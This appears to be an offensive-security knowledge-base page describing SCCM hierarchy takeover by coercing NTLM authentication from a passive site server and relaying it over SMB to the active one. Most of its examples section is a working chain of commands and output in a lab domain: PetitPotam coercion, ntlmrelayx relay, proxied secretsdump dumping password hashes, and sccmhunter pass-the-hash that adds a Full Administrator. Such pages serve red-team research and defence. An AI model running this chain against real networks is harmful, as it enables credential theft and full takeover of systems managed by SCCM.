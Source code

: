 # TAKEOVER-7
## Description
Hierarchy Takeover via NTLM Coercion and SMB Relay From Passive Site Server

## MITRE ATT&CK TTPs
- [T1078.002 - Valid Accounts](https://attack.mitre.org/techniques/T1078/002/)
- [T1187 - Forced Authentication](https://attack.mitre.org/techniques/T1187/)
- [T1003.004 - OS Credential Dumping](https://attack.mitre.org/techniques/T1003/004/) 

## Requirements

Valid domain credentials with network connectivity to the passive primary site server and active primary site server.

## Summary

For high availability configurations the passive site server role is deployed to SCCM sites where redundancy for the site server role is required. A passive site server shares the same configuration and privileges as the active site server yet performs no writes or changes to the site until promoted manually or during an automated failover. During setup, the passive site server is [required](https://learn.microsoft.com/en-us/mem/configmgr/core/servers/deploy/configure/site-server-high-availability#configurations-for-the-site-server-in-passive-mode) to be a member of the active site server's local administrator group. In default setups, SMB signing is not enforced on either site server host operating system and are vulnerable to NTLM relay attacks. 

## Impact

This technique may allow an attacker to relay a passive site server machine account to the primary site server host and compromise and primary site server machine account. With control of this account, an attacker could perform a pass-the-hash (PtH) attack to authenticate to the administration service hosted on the site server operating system and elevate their privileges to "Full Administrator" for the SCCM Hierarchy. If successful, this technique enables lateral movement to all SCCM clients and/or sensitive systems.

## Defensive IDs

## Examples

- Use SCCMHunter to profile SCCM site system server roles
- Use PetitPotam to coerce authentication from passive site server
- Use NTLMRelayx to relay credentials to SMB service on active site server
- Proxy secretsdump to recover active site server credentials
- Use SCCMHunter to PtH and add an arbitrary admin user

### SCCMHunter

The results of the `find` module indicate:
- The *SCCM.INTERNAL.LAB* and *PASSIVE.INTERNAL.LAB* sytems are both site servers in the "LAB" site
- The *SCCM.INTERNAL.LAB* host is the active site server and the *PASSIVE.INTERNAL.LAB* host is the passive site server
- SMB signing is disabled on both systems


```
[04:24:43 PM] INFO     [+] Finished profiling Site Servers.                                                                                                                                                                                                                                    
[04:24:43 PM] INFO     +----------------------+-------------------+-----------------+--------------+---------------+----------+-----------+---------+                                                                                                                                          
                       | Hostname             | SiteCode          | SigningStatus   | SiteServer   | SMSProvider   | Active   | Passive   | MSSQL   |                                                                                                                                          
                       +======================+===================+=================+==============+===============+==========+===========+=========+                                                                                                                                          
                       | sccm.internal.lab    | LAB               | False           | True         | True          | True     | False     | False   |                                                                                                                                          
                       +----------------------+-------------------+-----------------+--------------+---------------+----------+-----------+---------+                                                                                                                                          
                       | passive.internal.lab | LAB               | False           | True         | True          | False    | True      | False   |                                                                                                                                          
                       +----------------------+-------------------+-----------------+--------------+---------------+----------+-----------+---------+ 
```

### PetitPotam

 - Valid domain credentials are used to coerce authentication from the *PASSIVE.INTERNAL.LAB* passive site server to the attacker host

```
┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
└─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd 10.10.100.136 passive.internal.lab

Trying pipe lsarpc
[-] Connecting to ncacn_np:passive.internal.lab[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

```


### NTLMRelayx
- Authentication from the *PASSIVE.INTERNAL.LAB* site server is caught and relayed from the attacker host to the *SCCM.INTERNAL.LAB* active site server. The `-socks` flag is used to hold the authenticated session open

```
┌──(adminservice)─(root㉿DEKSTOP-2QO0YEUW)-[/opt/impacket/examples]
└─# python3 ntlmrelayx.py -t 10.10.100.121 -smb2support -socks
Impacket v0.10.1.dev1+20230802.213755.1cebdf31 - Copyright 2022 Fortra

[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Running in relay mode to single host
[*] SOCKS proxy started. Listening at port 1080
[*] IMAPS Socks Plugin loaded..
[*] MSSQL Socks Plugin loaded..
[*] HTTP Socks Plugin loaded..
[*] HTTPS Socks Plugin loaded..
[*] SMB Socks Plugin loaded..
[*] IMAP Socks Plugin loaded..
[*] SMTP Socks Plugin loaded..
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
 * Serving Flask app 'impacket.examples.ntlmrelayx.servers.socksserver'
 * Debug mode: off
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
Type help for list of commands
ntlmrelayx> [*] SMBD-Thread-9 (process_request_thread): Received connection from 10.10.100.141, attacking target smb://10.10.100.121
[*] Authenticating against smb://10.10.100.121 as LAB/PASSIVE$ SUCCEED
[*] SOCKS: Adding LAB/PASSIVE$@10.10.100.121(445) to active SOCKS connection. Enjoy
[*] SMBD-Thread-10 (process_request_thread): Connection from 10.10.100.141 controlled, but there are no more targets left!
[*] SOCKS: Proxying client session for LAB/PASSIVE$@10.10.100.121(445)
```

### Secretsdump
 - Secretsdump is proxied through the existing authenticated session to recover the *SCCM.INTERNAL.LAB* site server's hashed credential

```
┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
└─#  proxychains secretsdump.py lab/passive\$@sccm.internal.lab                     
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Password:
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.100.121:445  ...  OK
[*] Target system bootKey: 0x436a3e67c2c89ded60aeb1f1819428c8
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:003d349493bc6acfb242ae5c2ff3d819:::
[*] Dumping cached domain logon information (domain/username:hash)
INTERNAL.LAB/Administrator:$DCC2$10240#Administrator#dfb35a65f92d8af602f08e358a58dc42
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
lab\SCCM$:aes256-cts-hmac-sha1-96:76bf72e59677dfe072fd6609ccdc1343d318f7cc557b25588b36046747f80172
lab\SCCM$:aes128-cts-hmac-sha1-96:b2d7f1a79de08211ae6a518c82a715f4
lab\SCCM$:des-cbc-md5:5de98a07aefb983e

```

### SCCMHunter

- The recovered active site server machine account hash is used to authenticate to the Administration Service API and add an arbitrary user as Full Admin

```
 ┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/sccmhunter]
└─# python3 sccmhunter.py admin -u sccm\$ -p aad3b435b51404eeaad3b435b51404ee:6963d86f6d65497d7b2126d44e6cdb4e -ip 10.10.100.121
    
[06:53:08 PM] INFO     [!] Enter help for extra shell commands                                                                                               
() C:\ >> show_admins 
[06:53:11 PM] INFO     Tasked SCCM to list current SMS Admins.                                                                                               
[06:53:11 PM] INFO     Current Full Admin Users:                                                                                                             
[06:53:11 PM] INFO     lab\Administrator                                                                                                                     
() (C:\) >> get_user specter
[06:53:13 PM] INFO     [*] Collecting users...                                                                                                               
[06:53:13 PM] INFO     [+] User found.                                                                                                                       
[06:53:14 PM] INFO     ------------------------------------------                                                                                            
                       DistinguishedName: CN=specter,OU=DOMUSERS,DC=internal,DC=lab                                                                          
                       FullDomainName: INTERNAL.LAB                                                                                                          
                       FullUserName: specter                                                                                                              
                       Mail:                                                                                                                                 
                       NetworkOperatingSystem: Windows NT                                                                                                    
                       ResourceId: 2063597574                                                                                                                
                       sid: S-1-5-21-2391214593-4168590120-2599633397-1109                                                                                   
                       UniqueUserName: lab\specter                                                                                                           
                       UserAccountControl: 66048                                                                                                             
                       UserName: specter                                                                                                           
                       UserPrincipalName: specter@internal.lab                                                                                        
                       ------------------------------------------                                                                                            
() (C:\) >> add_admin specter S-1-5-21-2391214593-4168590120-2599633397-1109
[06:53:19 PM] INFO     Tasked SCCM to add specter as an administrative user.                                                                                 
[06:53:19 PM] INFO     [+] Successfully added specter as an admin.                                                                                           
() (C:\) >> show_admins 
[06:53:20 PM] INFO     Tasked SCCM to list current SMS Admins.                                                                                               
[06:53:20 PM] INFO     Current Full Admin Users:                                                                                                             
[06:53:20 PM] INFO     lab\Administrator                                                                                                                     
[08:46:39 PM] INFO     specter 


```


## References
Author, Title, URL
